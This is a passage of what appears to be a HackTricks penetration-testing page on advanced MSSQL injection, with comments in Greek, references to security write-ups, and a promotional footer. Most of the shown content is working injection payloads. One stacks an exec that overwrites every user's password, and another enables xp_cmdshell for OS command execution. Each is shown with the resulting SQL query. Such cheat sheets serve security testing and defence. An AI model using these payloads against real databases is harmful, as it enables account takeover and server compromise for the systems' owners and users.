 exec('select 1')--'

# Χρήση περίεργα κατασκευασμένων ερωτημάτων
admin'exec('update[users]set[password]=''a''')--
## Αυτό θα γίνει:
SELECT id, username, password FROM users WHERE username = 'admin'
exec('update[users]set[password]=''a''')--'

# Ή ενεργοποίηση του xp_cmdshell
admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
## Αυτό θα γίνει:
select * from users where username = ' admin'
exec('sp_configure''show advanced option'',''1''reconfigure')
exec('sp_configure''xp_cmdshell'',''1''reconfigure')--'
```

## References

* [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
* [https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
